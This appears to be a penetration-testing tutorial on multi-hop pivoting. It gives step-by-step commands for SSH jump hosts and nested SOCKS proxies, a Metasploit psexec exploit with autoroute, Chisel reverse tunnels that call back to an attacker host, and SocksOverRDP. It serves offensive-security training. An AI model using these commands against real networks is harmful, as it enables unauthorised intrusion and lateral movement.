


# 🔀 Double Pivots

A single pivot gets you into the first internal network segment. But enterprise environments are rarely flat — you'll encounter DMZs, management VLANs, server segments, and workstation subnets. Double (and multi-hop) pivoting chains tunnels through multiple compromised hosts to reach these deeply segmented networks.

---

## 1. Understanding Multi-Hop Pivoting

### The Network Layout



**Key concept:** Each pivot host has at least two network interfaces (or routes to two different subnets). You chain tunnels through them to progressively reach deeper networks.

### The Methodology

1. **Compromise Pivot 1** — Establish your first tunnel
2. **Enumerate the next subnet** — Discover hosts on the second network segment
3. **Compromise Pivot 2** — Use your first tunnel to attack and compromise a host on the next segment
4. **Chain a second tunnel** — Route traffic through both pivots to reach the final target
5. **Repeat** — Continue for as many hops as needed

---

## 2. Double Pivot with SSH

The most straightforward approach uses SSH's built-in `-J` (JumpHost) flag or nested dynamic port forwarding.

### Method A: SSH Jump Hosts

```bash
# SSH directly to Pivot 2 using Pivot 1 as a jump host
ssh -J ubuntu@10.129.202.64 admin@172.16.5.19
```

This creates a single command that transparently chains through both hosts.

### Method B: Nested Dynamic Port Forwarding

```bash
# Step 1: Create a SOCKS proxy through Pivot 1
ssh -D 9050 -N -f ubuntu@10.129.202.64

# Step 2: Through the first tunnel, SSH into Pivot 2 and create a second SOCKS proxy
proxychains ssh -D 9051 -N -f admin@172.16.5.19
```

Now you have two SOCKS proxies:

- `127.0.0.1:9050` → reaches the `172.16.5.0/24` network
- `127.0.0.1:9051` → reaches the `172.16.6.0/24` network

Configure Proxychains in `dynamic_chain` mode:

```ini
dynamic_chain

[ProxyList]
socks5  127.0.0.1 9050
socks5  127.0.0.1 9051
```

### Method C: Double Pivot with Ligolo-ng

Ligolo-ng makes double pivoting seamless — see the [Ligolo-ng Deep Dive](ligolo-ng.md#5-double-multi-hop-pivoting) for the complete walkthrough. The key advantage is that you manage all sessions from a single proxy console and add routes natively.

---

## 3. Double Pivot with Meterpreter

### Step 1: Establish the First Pivot

```bash
# After getting a Meterpreter session on Pivot 1
meterpreter > background

# Add routes to the first internal subnet
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```

### Step 2: Exploit Through the First Pivot

```bash
# Use the routed connection to exploit Pivot 2
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set RHOSTS 172.16.5.19
msf6 exploit(windows/smb/psexec) > set PAYLOAD windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/smb/psexec) > set RHOST 172.16.5.19
msf6 exploit(windows/smb/psexec) > run
```

!!! important
    **Use bind payloads for deep targets.** When exploiting through a pivot, reverse shells need to route back through all tunnels. Bind payloads (where the target listens and you connect to it) are simpler and more reliable for multi-hop scenarios.

### Step 3: Add Routes for the Second Network

```bash
# Now add routes for the deeper network through Session 2
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 2
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.6.0
msf6 post(multi/manage/autoroute) > run
```

### Step 4: Create a SOCKS Proxy

```bash
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set VERSION 5
msf6 auxiliary(server/socks_proxy) > run -j
```

Traffic to `172.16.6.0/24` now automatically routes through Session 1 → Session 2.

---

## 4. Double Pivot with Chisel

Chisel supports chaining through multiple hops:

### Step 1: First Tunnel

```bash
# Kali — start the first Chisel server
./chisel server -v -p 1234 --reverse

# Pivot 1 — connect back as a reverse SOCKS client
./chisel client -v 10.10.14.18:1234 R:1080:socks
```

### Step 2: Second Tunnel Through the First

```bash
# On Pivot 1 — start a second Chisel server
./chisel server -v -p 1235 --reverse

# On Pivot 2 — connect to Pivot 1's Chisel server
./chisel client -v 172.16.5.35:1235 R:1081:socks
```

### Step 3: Chain the Proxies

Configure Proxychains with both SOCKS proxies in `dynamic_chain` mode:

```ini
dynamic_chain

[ProxyList]
socks5  127.0.0.1 1080
socks5  127.0.0.1 1081
```

---

## 5. RDP and SOCKS Tunneling with SocksOverRDP

### When Do You Need This?

In some Windows-only environments, you may find yourself accessing machines exclusively through RDP (Remote Desktop). If:

- You have RDP access to a Windows host
- That host has access to another internal network segment
- You have **no SSH, no ability to upload executables** (application whitelisting)

SocksOverRDP creates a SOCKS proxy over the RDP protocol itself — no additional tools needed on the server side beyond a DLL.

### Architecture



### Components

SocksOverRDP consists of two parts:

1. **SocksOverRDP-Plugin.dll** — Loaded by the RDP client (`mstsc.exe`) on your attack machine
2. **SocksOverRDP-Server.exe** — Executed on the Windows pivot host within the RDP session

### Step 1: Load the Plugin on Your Attack Machine

```cmd
# Register the DLL — this loads it into mstsc.exe
regsvr32.exe SocksOverRDP-Plugin.dll
```

### Step 2: Connect via RDP

```cmd
mstsc.exe /v:10.129.202.64
```

### Step 3: Start the Server on the Pivot Host

Within the RDP session, execute:

```cmd
SocksOverRDP-Server.exe
```

The server will start and bind a SOCKS proxy. Back on your attack machine, SocksOverRDP will confirm the SOCKS proxy is available (default: `127.0.0.1:1080`).

### Step 4: Route Tools Through the Proxy

On your attack machine, configure Proxychains to use the SOCKS proxy:

```ini
[ProxyList]
socks5  127.0.0.1 1080
```

```bash
proxychains nmap -sT -Pn -p 3389 172.16.6.155
```

!!! tip
    **Combining with xfreerdp:** If you're on Linux, you can use `xfreerdp` with a dynamic virtual channel plugin to achieve similar results. However, native `mstsc.exe` on Windows provides the cleanest integration.

---

## 6. Cheatsheet

| Technique | Setup |
| :--- | :--- |
| **SSH Jump Host** | `ssh -J user1@pivot1 user2@pivot2` |
| **SSH Nested SOCKS** | First: `ssh -D 9050 user@pivot1` → Then: `proxychains ssh -D 9051 user@pivot2` |
| **MSF Double Autoroute** | `autoroute` Session 1 → Exploit Pivot 2 → `autoroute` Session 2 |
| **Chisel Chain** | Server on Kali → Client on Pivot 1 → Server on Pivot 1 → Client on Pivot 2 |
| **SocksOverRDP Plugin** | `regsvr32.exe SocksOverRDP-Plugin.dll` |
| **SocksOverRDP Server** | `SocksOverRDP-Server.exe` (in RDP session) |
| **Ligolo-ng Double Pivot** | `listener_add` on Agent 1 → Agent 2 connects through Agent 1 |
